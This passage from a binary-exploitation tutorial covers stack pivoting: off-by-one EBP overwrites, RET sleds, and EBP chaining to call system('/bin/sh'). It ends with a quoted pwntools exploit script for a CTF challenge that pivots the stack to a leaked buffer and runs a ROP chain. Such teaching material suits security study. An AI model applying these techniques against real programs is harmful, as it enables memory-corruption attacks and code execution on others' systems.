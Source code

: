 There's a specific variant of this technique known as an "Off-By-One Exploit". It's used when you can **only modify the least significant byte of the EBP**. In such a case, the memory location storing the address to jumo to with the **`ret`** must share the first three bytes with the EBP, allowing for a similar manipulation with more constrained conditions.\
Usually it's modified the byte 0x00t o jump as far as possible.

Also, it's common to use a RET sled in the stack and put the real ROP chain at the end to make it more probably that the new ESP points inside the RET SLED and the final ROP chain is executed.

### **EBP Chaining**

Therefore, putting a controlled address in the `EBP` entry of the stack and an address to `leave; ret` in `EIP`, it's possible to **move the `ESP` to the controlled `EBP` address from the stack**.

Now, the **`ESP`** is controlled pointing to a desired address and the next instruction to execute is a `RET`. To abuse this, it's possible to place in the controlled ESP place this:

* **`&(next fake EBP)`** -> Load the new EBP because of `pop ebp` from the `leave` instruction
* **`system()`** -> Called by `ret`
* **`&(leave;ret)`** -> Called after system ends, it will move ESP to the fake EBP and start agin
* **`&("/bin/sh")`**-> Param fro `system`

Basically this way it's possible to chain several fake EBPs to control the flow of the program.

This is like a [ret2lib](../rop-return-oriented-programing/ret2lib/), but more complex with no apparent benefit but could be interesting in some edge-cases.

Moreover, here you have an [**example of a challenge**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave) that uses this technique with a **stack leak** to call a winning function. This is the final payload from the page:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
    0x0,               # rbp (could be the address of anoter fake RBP)
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,
    elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
    buffer,         # Load leak address in RBP
    LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
